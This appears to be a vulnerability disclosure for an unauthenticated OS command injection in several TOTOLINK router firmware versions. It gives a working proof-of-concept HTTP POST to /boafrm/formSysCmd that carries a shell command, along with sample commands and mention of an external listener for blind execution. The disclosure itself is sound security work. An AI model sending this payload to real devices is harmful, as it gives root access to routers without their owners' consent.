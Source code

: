 # TOTOLINK using Boa API vulnerabilities
## Overview
Some TOTOLINK products using Boa API function are vulnerable to OS Command Injection.
## Products Affected
- TOTOLINK-CX-A3002RU-V1.0.4-B20171106.1512
- TOTOLINK-CX-N150RT-V2.1.6-B20171121.1002
- TOTOLINK-CX-N300RT-V2.1.6-B20170724.1420
- TOTOLINK-CX-N300RT-V2.1.8-B20171113.1408
- TOTOLINK-CX-N300RT-V2.1.8-B20191010.1107
- TOTOLINK-CX-N302RE-V2.0.2-B20170511.1523

## Description
- A OS command injection vulnerability was found within the web interface of the device([CWE-78](https://cwe.mitre.org/data/definitions/78.html)).
## Impact
- An attacker may inject arbitrary shell commands without credentials, and it be executed by the device with root privileges.
## Solution
- If the products is not supported, please stop using the products and switch to alternative products.
## Mitigation 
- Disable internet access. 

## Explot PoC
- Uses external server`{Listen IP}:{Listen Port}` to see invisible code execution response

**Payload**
```http!
POST /boafrm/formSysCmd HTTP/1.1
Host: {Target IP}:{Target Port}
User-Agent: curl/7.81.0
Accept: */*
Content-Length: <length>
Content-Type: application/x-www-form-urlencoded

sysCmd={shell_cmd}
```

**Check product version**
- shell cmd: `cat /etc/version`
![image](https://hackmd.io/_uploads/H1jjAhKKR.png)

**Check gained root permission**
- shell cmd: `echo %USER`
![image](https://hackmd.io/_uploads/Syt0BhFFA.png)

## Affected products
**TOTOLINK-CX-A3002RU-V1.0.4-B20171106.1512**
![image](https://hackmd.io/_uploads/H1jjAhKKR.png)

**TOTOLINK-CX-N150RT-V2.1.6-B20171121.1002**
![image](https://hackmd.io/_uploads/r1ZV1pYYA.png)

**TOTOLINK-CX-N300RT-V2.1.6-B20170724.1420**
![image](https://hackmd.io/_uploads/rkLFcBy9A.png)

**TOTOLINK-CX-N300RT-V2.1.8-B20171113.1408**
![image](https://hackmd.io/_uploads/BJe4w1aYY0.png)

**TOTOLINK-CX-N300RT-V2.1.8-B20191010.1107**
![image](https://hackmd.io/_uploads/rkY3qHk5C.png)

**TOTOLINK-CX-N302RE-V2.0.2-B20170511.1523**
![image](https://hackmd.io/_uploads/H1hqk6FtC.png)

## Reference
- https://www.totolink.tw/products_view/N302RE
- https://www.totolink.tw/products_view/N300RT
- https://totolink.tw/support_view/A3002RU
- https://totolink.tw/support_view/N150RT
